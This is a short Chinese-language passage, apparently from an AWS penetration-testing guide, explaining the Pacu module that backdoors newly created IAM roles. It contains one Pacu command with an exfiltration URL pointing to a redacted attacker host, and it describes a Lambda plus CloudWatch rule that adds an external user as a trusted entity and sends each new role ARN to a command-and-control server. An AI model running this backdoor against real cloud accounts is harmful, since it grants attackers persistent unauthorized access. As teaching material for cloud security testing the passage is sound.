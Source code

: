 ![](img/8d10fd48-2301-4683-b3ff-4518b5285398.png)

创建后门 Lambda 函数和 CloudWatch 事件规则

如前一个屏幕截图所示，我们运行了以下 Pacu 命令：

```
run lambda__backdoor_new_roles --exfil-url http://x.x.x.x:5050/ --arn arn:aws:iam::000000000000:user/PersonalUser
```

此命令假定我们在端口`5050`上的 IP`x.x.x.x`（已审查）上托管一个 HTTP 侦听器，并且我们的`PersonalUser`AWS 用户驻留在 AWS 帐户 ID`000000000000`中。当它运行时，Pacu 将生成 Lambda 函数的代码，对其进行压缩，然后将其上载到 Lambda。之后，它将创建一个 CloudWatch 事件规则，在任何 IAM`CreateRole`API 调用时触发该规则。现在，每次创建一个新的 IAM 角色时，我们的 CloudWatch 事件规则都会被触发，这会导致调用我们的 Lambda 函数，然后该函数将使用 IAM`UpdateAssumeRolePolicy`API 添加我们的外部用户（`PersonalUser`作为可以承担它的可信实体。完成后，它会将新角色的 ARN 过滤到我们在命令中提供的 URL，以便我们可以随时使用它访问帐户。

经过一段时间的等待，我们终于收到了对我们的**命令和控制**（**C2**）服务器的请求，该服务器具有 IAM 角色 ARN，这意味着已经创建了一个，并且我们使用 Lambda 功能自动对其进行后门：

![](img/e6df982c-0623-4e60-9838-ec3d44e784a6.png)
